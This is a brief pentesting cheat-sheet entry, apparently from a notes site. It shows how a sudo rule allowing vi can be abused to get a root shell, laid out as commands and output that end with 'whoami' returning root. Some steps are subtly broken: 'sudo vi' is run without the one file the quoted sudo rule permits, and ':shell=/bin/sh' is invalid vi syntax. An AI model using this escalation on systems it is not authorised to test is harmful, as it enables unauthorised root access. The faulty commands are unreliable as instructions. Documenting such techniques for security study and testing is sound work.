# vi

`vi` can be use for privilege escalations

For example, if sudo -l of a non-root user returns the following :

```bash
(ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

We can launch vi as root :&#x20;

```bash
sudo vi
```

Then set a shell variable :&#x20;

```bash
:shell=/bin/sh
```

And call the shell :&#x20;

```bash
:shell
# whoami
whoami
root
```

-> The shell is launched as root 🍾
